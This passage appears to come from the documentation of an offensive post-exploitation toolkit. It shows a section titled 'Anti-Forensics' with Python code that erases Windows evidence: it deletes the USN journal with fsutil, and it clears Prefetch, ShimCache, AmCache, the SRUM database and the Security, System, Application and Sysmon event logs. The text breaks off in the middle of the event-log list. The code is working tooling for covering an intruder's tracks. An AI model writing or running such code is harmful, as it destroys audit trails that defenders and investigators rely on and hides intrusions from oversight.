 ### 4.2 Anti-Forensics

**File:** `Core/elite_commands/anti_forensics.py`

```python
def clean_all_artifacts():
    """Remove all forensic artifacts"""
    
    cleaned = []
    
    # Clear USN Journal
    if _clear_usn_journal():
        cleaned.append("USN Journal")
    
    # Clear Prefetch
    if _clear_prefetch():
        cleaned.append("Prefetch")
    
    # Clear event logs
    if _clear_event_logs():
        cleaned.append("Event Logs")
    
    # Clear ShimCache
    if _clear_shimcache():
        cleaned.append("ShimCache")
    
    # Clear AmCache
    if _clear_amcache():
        cleaned.append("AmCache")
    
    # Clear SRUM database
    if _clear_srum():
        cleaned.append("SRUM")
    
    return {"cleaned": cleaned}

def _clear_usn_journal():
    """Clear USN Journal entries"""
    try:
        import subprocess
        
        # Delete USN Journal
        result = subprocess.run(
            'fsutil usn deletejournal /d C:',
            shell=True,
            capture_output=True
        )
        
        return result.returncode == 0
    except:
        return False

def _clear_event_logs():
    """Selectively clear event log entries"""
    try:
        import win32evtlog
        import win32evtlogutil
        
        # Target specific logs
        logs_to_clear = [
            'Security',
            'System', 
            'Application',
            'Microsoft-Windows-Sysmon/Operational',
```